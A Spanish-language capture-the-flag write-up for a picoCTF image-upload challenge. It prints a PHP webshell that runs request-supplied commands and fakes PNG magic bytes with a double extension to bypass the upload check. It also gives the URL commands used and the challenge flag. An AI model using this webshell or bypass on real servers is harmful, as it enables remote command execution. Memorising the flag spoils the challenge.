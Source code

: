 ---
### Descripción:
**I found a web app that can help process images: PNG images only!
Additional details will be available after launching your challenge instance.
Try it [here](http://atlas.picoctf.net:58786/)!**


### Pistas: 
```
(None)
```

### Solución:
- **Para la solucion a este reto, entraremos a la pagina que nos dieron, de la cual, solo acepta imagenes png; comenzamos colocando, robots.txt al final de la liga: "http://atlas.picoctf.net:55481/robots.txt", obtendremos:**
```bash
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
- **Al intentar dirigirnos a /instructions.txt, nos dira lo siguiente.**
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
- **En resumen, la informacion de que los bytes de un archivo PNG en hexadecimal son "50 4E 47", y nos servira para despues.**
- **A continuacion investigamos sobre el webshell en php (en chatgpt), y del cual obtendremos lo siguiente:**
```bash
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
}
```
- **A partir de esta informacion, nos dirigimos a la terminal y haremos un archivo php, donde guardaremos lo investigado.**
```bash
estefania@estefania-IdeaPad-3-14ALC6:~$ nano webshell.php
```
- **Sin embargo, no nos sirve con esta extension ya que no lo detectara como png, por lo que hacemos una copia, o simplemente, editamos el archivo y al principio del texto que copiamos colocamos "PNG".**
```bash
estefania@estefania-IdeaPad-3-14ALC6:~$ cp webshell.php  webshell.png.php
estefania@estefania-IdeaPad-3-14ALC6:~$ nano webshell.png.php
estefania@estefania-IdeaPad-3-14ALC6:~$ cat webshell.png.php 
PNG
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
}
```
- **Al leer los bytes del archivo con "xxd", al principio vemos los bytes que ocupamos para que se detecte que el archivo funcione como un PNG.**
```bash
estefania@estefania-IdeaPad-3-14ALC6:~$ xxd webshell.png.php
00000000: 504e 470a 3c3f 7068 700a 6966 2869 7373  PNG.<?php.if(iss
00000010: 6574 2824 5f52 4551 5545 5354 5b27 636d  et($_REQUEST['cm
00000020: 6427 5d29 297b 0a20 2020 2065 6368 6f20  d'])){.    echo 
00000030: 223c 7072 653e 223b 0a20 2020 2024 636d  "<pre>";.    $cm
00000040: 6420 3d20 2824 5f52 4551 5545 5354 5b27  d = ($_REQUEST['
00000050: 636d 6427 5d29 3b0a 2020 2020 7379 7374  cmd']);.    syst
00000060: 656d 2824 636d 6429 3b0a 2020 2020 6563  em($cmd);.    ec
00000070: 686f 2022 3c2f 7072 653e 223b 0a7d 0a    ho "</pre>";.}.
```
- **Ahora, hecho el archivo, lo subimos a la pagina, y nos dirigimos a "/uploads/webshell.png.php?cmd=ls", para ver el contenido, deberia aparecer el archivo php que subimos, no nos sirve, por lo que le añadimos ".." despues del ls, para ir una carpeta atras.**
```
http://atlas.picoctf.net:55481/uploads/webshell.png.php?cmd=ls 
http://atlas.picoctf.net:55481/uploads/webshell.png.php?cmd=ls%20..
```
- **Del cual nos aparece lo siguiente:**
```
PNG

GAZWIMLEGU2DQ.txt
index.php
instructions.txt
robots.txt
uploads
```
- **Vemos que el primer archivo txt es el unico que no hemos visto, por lo tanto editaremos la url, haciendole un cat al archivo de la siguiente manera:**
```
http://atlas.picoctf.net:55481/uploads/webshell.png.php?cmd=cat%20../GAZWIMLEGU2DQ.txt
```
- **Y finalmente obtenemos la bandera:**
```
PNG

/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548} */
```

### Bandera:
```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}
```
